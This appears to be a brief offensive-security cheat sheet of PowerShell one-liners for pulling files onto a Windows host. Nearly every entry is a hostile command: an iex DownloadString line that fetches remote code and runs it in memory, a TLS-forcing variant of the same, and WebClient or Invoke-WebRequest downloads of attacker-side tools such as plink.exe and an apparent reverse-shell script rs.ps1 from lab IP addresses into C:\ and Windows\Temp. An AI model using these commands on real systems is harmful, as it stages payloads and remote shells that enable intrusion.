 # Powershell Web Client

## Powershell Webclient

### Download and execute into memory

```csharp
iex((new-object net.webclient).downloadstring('http://URL/file.something'))
```

### Download and save

```csharp
iwr("http://10.110.0.66/tools/file.ps1") -OutFile file.ps1
```

### TLS \(in case of https ...\)

```csharp
 [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; iex((new-object net.webclient).
downloadstring('http://URL/file.something'))
```

### Wget

```csharp
C:\>powershell (new-object System.Net.Webclient).DownloadFile('http://10.11.0.138/plink.exe','C:\plink.exe')
```

```csharp
powershell.exe -NoLogo -Command "$webClient = new-object System.Net.WebClient; $webClient.DownloadFile('http://10.10.16.25/rs.ps1', 'c:\Windows\Temp\rs.ps1')"
```

